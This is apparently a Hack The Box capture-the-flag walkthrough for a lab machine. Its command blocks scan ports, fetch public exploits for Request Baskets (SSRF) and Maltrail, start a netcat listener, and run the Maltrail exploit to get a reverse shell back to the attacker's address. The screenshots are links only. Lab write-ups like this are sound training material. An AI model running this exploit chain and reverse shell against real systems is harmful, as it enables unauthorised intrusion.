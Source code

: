 ```
rustscan -a 10.10.11.224 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/eb7f80db-8ea9-414a-9854-1341815a5d8b)

```
nmap -Pn -sC -sV -p 22,55555 10.10.11.224
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3940691b-cf5c-4028-99fe-e2e498ce1d8e)

HTTP 55555
```
http://10.10.11.224:55555/web
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d765624b-9fbf-476d-9ef9-ffbced68b099)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/79f69a5d-4089-415f-a730-95af922adc0a)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/90cf2208-534e-48e8-ac26-f19e52370a7d)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e3295c04-4b3e-47ca-9d22-bbcb09054e93)

Search Exploits
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/133c49dc-5684-4ead-ab67-a918ada9b649)

Download Exploit
```CSS
searchsploit -m python/webapps/51675.sh
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/22c3d009-796c-4673-b744-f4fc250d2903)

Run Exploit
```CSS
/51675.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/21037b3a-2ebd-4701-97e3-716eab11b387)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5a3aa473-763c-4074-b1d5-82b081f3226f)

Search Exploits
```CSS
searchsploit maltrail
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4925095c-7d81-4c89-bfbc-b1a32a2c2a6c)

Download Exploit
```CSS
searchsploit -m python/webapps/51676.py
```

Start Netcat Listener
```CSS
rlwrap nc -nlvvp 4444
```

Run Exploit
```
python3 51676.py 10.10.14.4 4444 http://10.10.11.224:55555/nmsxly
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d1f9fe95-40a3-4694-a9ef-ebf126e09f4f)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3dde2cda-02a1-4206-92ef-1ee52146c66d)
